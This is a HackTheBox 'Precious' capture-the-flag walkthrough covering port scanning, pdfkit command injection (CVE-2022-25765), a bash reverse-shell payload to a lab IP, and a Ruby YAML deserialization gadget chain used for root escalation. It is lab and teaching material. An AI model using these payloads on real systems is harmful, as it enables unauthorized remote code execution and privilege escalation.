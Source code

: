 # HackTheBox - Precious

## NMAP

```bash
Nmap scan report for 10.10.11.189
Host is up (1.5s latency).
Not shown: 63496 closed tcp ports (reset), 2037 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)

Visting the web server, it redirects to `precious.htb`

<img src="https://i.imgur.com/Ld0tHX7.png"/>

Adding the domain in `/etc/hosts` file

<img src="https://i.imgur.com/7FsxbA0.png"/>

<img src="https://i.imgur.com/ZzRDFK3.png"/>

It says about entering a url which will convert it into a pdf file, on trying `http://localhost` and `http://127.0.0.1` it doesn't allow them

<img src="https://i.imgur.com/GGmVDAr.png"/>

Trying a remote url did worked

<img src="https://i.imgur.com/RBYJpij.png"/>

## Foothold

Running `exiftool` on the generated pdf, we'll see the version of `pdfkit`

<img src="https://i.imgur.com/Mo0bqua.png"/>

Which reveals that there exists a `CVE-2022-25765` and it's vulnerable to command injection

<img src="https://i.imgur.com/MqX04gZ.png"/>


Following the commits being made on pdfkit and snyk, it needs `http://` at the begninig and the with back ticks we can can include shell comamnd

```bash
http://%20`ping 10.10.14.72`
```

<img src="https://i.imgur.com/dMbsAVT.png"/>

<img src="https://i.imgur.com/PH7MxYm.png"/>

```bash
http://%20`/bin/bash -c "bash -i >& /dev/tcp/10.10.14.72/4444 0>&1"`
```

<img src="https://i.imgur.com/kv5AW7k.png"/>

Running pspy doesn't show anything interesting

<img src="https://i.imgur.com/fAaznTO.png"/>

## Privilege Escalation (henry)

Going into `ruby`'s home directory, we can see `.bundle` foldder which has `henry`'s password

<img src="https://i.imgur.com/ooNjLyD.png"/>

Doing `sudo -l` we can see this user can run `/opt/update_dependencies.rb file as root user

<img src="https://i.imgur.com/M37Vmhh.png"/>
This script will read try to read `dependency.yaml` file and will compare `yaml` and `pdfkit` it's version 

<img src="https://i.imgur.com/oNUylBI.png"/>

<img src="https://i.imgur.com/DzXfsTy.png"/>

Since it's reading yaml, this can absued with yaml deserilization and it's vulnerable because of `yaml.load`

<img src="https://i.imgur.com/QqWjzI6.png"/>

```yaml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

<img src="https://i.imgur.com/T5o1ORH.png"/>

## References

- https://github.com/advisories/GHSA-rhwx-hjx2-x4qr
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

